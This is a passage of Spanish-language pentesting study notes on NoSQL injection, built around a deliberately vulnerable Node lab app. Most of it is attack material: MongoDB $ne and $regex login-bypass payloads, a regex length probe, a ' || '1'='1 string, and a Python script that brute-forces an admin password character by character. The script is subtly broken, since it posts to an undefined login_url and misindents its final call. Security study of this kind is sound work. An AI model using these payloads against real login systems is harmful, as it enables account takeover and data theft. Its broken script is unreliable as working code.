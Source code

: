 # Inyecciones NoSQL

Tags: #NoSQLI #OWASP #Explotacion #MongoSQLI 

Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

A continuación, se proporciona el enlace al proyecto de Github que nos descargamos para poner en práctica esta vulnerabilidad:

-   **Vulnerable-Node-App**: [https://github.com/Charlie-belmer/vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app)


## Inyecciones 

En esta pagina podemos encontrar ejemplos de inyecciones NoSQL
* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Podemos interceptar las peticiones en **BurpSuite y ahi inyectar los NoSQLI**. Esto lo prodriamos hacer en el **Repeater**.
* Peticion por **POST**
* Debemos tramitar la data en **Json**
* Debemos de tener en **Content Type: application/json**, ya que si no, no nos va a servir.

```bash
{                                    # Peticion original interceptada en BurpSuite 
	"username":"admin",
	"password":"admin"
}
```


* Iniciando la inyeccion NoSQL
```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd
	"username":"admin",
	"password":{
		"$ne":"admin"
	}
}
```
Aqui le diremos que la passwd no es igual a 'admin', por lo que es una afirmacion correcta y entrara al login.

```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd y el usuario
	"username":{
		"$ne":"omar"
	},
	"password":{
		"$ne":"admin"
	}
}
```
En esta ocasion le diremos que el usuario no es 'omar' y la passwd no es 'admin', por lo que es una afirmacion correcta y entrara al login.


* Tambien podemos aplicar **Regex = Expresiones Regulares**
```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), con la passwd correcta
 	"username":{
		"$regex":"^a"
	},
	"password":"admin"
}
```

```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), y diciendo que la passwd no es admin
 	"username":{
		"$regex":"^a"
	},
	"password":{
		"$ne":"admin"
	}
}
```

Para saber la longitud
```bash
{                                    # Para saber la longitud de caracteres, la cual si es menor o igual a la original la tomara como correcta pero si se pasa sera error
	"username":"admin",
	"password":{
		"$regex":".{24}"
	}
}
```


Podriamos aplicar Fuerza Bruta con las Regex para ir probando caracter por caracter y asi ir descubriendo la passwd de algun usuario especifico que exista.
```python 
❯ nano NoSQL.py

	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:4000/user/login"
	characters = string.ascii_lowercase + string.ascii_uppercase + string.digits           # Probariamos de la a-z A-Z y los numeros

	def makeNoSQLI():
		password = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Password")
		
		for position in range(0, 100):               #Podemos cancelar el bucle cuando ya haya terminado de descifrar la passwd y no esperar a las 100 evaluaciones
			for character in characters:
				post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password, character)
				p1.status(post_data)
				headers = {'Content-Type': 'application/json'}
				r = requests.post(login_url, headers=headers, data=post_data)
				if "Logged in as user" in r.text:
					password += character
					p2.status(password)
					break 
					
	if __name__ == '__main__':
	makeNoSQLI()
```


## Mongo SQLI

* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
* HackTricks: [Hacktricks-Mongo-NoSQLI](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo)

Algunas inyecciones para MongoDB
```bash
❯ ' || '1'='1                                       # La mas sencilla, con la cuarta comilla estamnos cerrando la inyeccion
```